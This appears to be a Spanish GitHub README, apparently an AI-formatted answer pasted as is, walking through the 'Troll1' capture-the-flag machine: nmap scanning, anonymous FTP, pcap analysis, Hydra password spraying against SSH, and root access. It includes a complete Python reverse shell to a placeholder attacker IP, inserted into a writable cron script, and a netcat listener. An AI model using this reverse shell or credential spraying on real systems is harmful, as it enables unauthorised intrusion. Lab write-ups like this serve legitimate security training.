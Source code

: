 # Troll1
Paso a paso para vulnerar la máquina troll1

Aquí tienes una versión mejorada y adaptada para GitHub del texto que proporcionaste. He estructurado el contenido en un formato más legible, utilizando Markdown para resaltar los comandos y los pasos clave. Además, he añadido secciones para mejorar la organización y facilitar la lectura.

```markdown
# Resolución de la Máquina Troll

Este documento describe el proceso paso a paso para resolver la máquina virtual "Troll". A continuación, se detallan las acciones realizadas para identificar vulnerabilidades, explotarlas y obtener acceso como usuario root.

---

## 1. Escaneo Inicial

Realizamos un escaneo de la red para identificar la IP de la máquina, los puertos abiertos y los servicios en ejecución.

```bash
nmap -sV -p- <IP_de_la_máquina>
```

### Puertos y Servicios Abiertos:
- **21/tcp**: FTP (vsftpd 3.0.2)
- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

---

## 2. Identificación de Vulnerabilidades

Exploramos posibles vulnerabilidades en los servicios identificados, consultando bases de datos como [CVE](https://cve.mitre.org/).

---

## 3. Acceso al Servicio FTP

Accedemos al servicio FTP utilizando el usuario `anonymous` sin contraseña.

```bash
ftp <IP_de_la_máquina>
```

### Archivo Encontrado:
- **lol.pcap**: Un archivo de captura de red que analizamos con Wireshark.

---

## 4. Análisis del Archivo `lol.pcap`

Descargamos el archivo `lol.pcap` a nuestra máquina local y lo abrimos con Wireshark.

```bash
get lol.pcap
```

### Pista Encontrada:
- En una transferencia de FTP-DATA, encontramos un nombre de usuario: `sup3rs3cr3tdirlol`.

---

## 5. Exploración del Servicio Web

Accedemos a la ruta web asociada al usuario encontrado:

```
http://<IP_de_la_máquina>/sup3rs3cr3tdirlol
```

### Archivo Descubierto:
- **roflmao**: Un archivo oculto que contiene la pista `Find address 0x0856BF`.

---

## 6. Enumeración de Usuarios y Contraseñas

En la misma ruta web, encontramos dos carpetas:

1. **good_luck**: Contiene un listado de usuarios registrados en la máquina.
2. **this_folder_contains_the_password**: Contiene un archivo `Pass.txt` con una posible contraseña.

### Uso de Hydra:
Utilizamos Hydra para probar la contraseña encontrada con los usuarios listados.

```bash
hydra -L users.txt -p "contraseña_encontrada" <IP_de_la_máquina> ssh
```

---

## 7. Acceso SSH

Una vez identificado el usuario válido, accedemos a la máquina mediante SSH.

```bash
ssh "usuario"@<IP_de_la_máquina>
```

---

## 8. Escalada de Privilegios

### Método 1: Explotación de un Script Python

1. Identificamos un script en Python (`cleaner.py`) que se ejecuta periódicamente y es modificable.
2. Insertamos una reverse shell en el script.

```python
# Reverse Shell en Python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP_atacante>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. Ponemos en escucha Netcat en nuestra máquina.

```bash
nc -lvp 4242
```

4. Cuando el script se ejecute, obtendremos una shell como root.

### Método 2: Uso de un Exploit de Escalada de Privilegios

1. Buscamos un exploit para la versión de Ubuntu de la máquina.
2. Compilamos y ejecutamos el exploit.

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 9. Obtención de la Flag

Una vez como root, buscamos el archivo `proof.txt` que contiene la flag.

```bash
ls /root
cat /root/proof.txt
```

---

## Referencias

- [Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
- [Exploit Database](https://www.exploit-db.com)
```

### Mejoras realizadas:
1. **Estructura clara**: Se han utilizado encabezados (`#`, `##`, `###`) para organizar el contenido.
2. **Resaltado de comandos**: Los comandos se han formateado como bloques de código para facilitar su identificación.
3. **Enlaces útiles**: Se han añadido enlaces a recursos externos para ampliar la información.
4. **Lenguaje conciso**: Se ha simplificado el texto para que sea más directo y fácil de seguir.

Este formato es ideal para compartir en GitHub, ya que es legible tanto en la plataforma como en editores de texto que soporten Markdown.
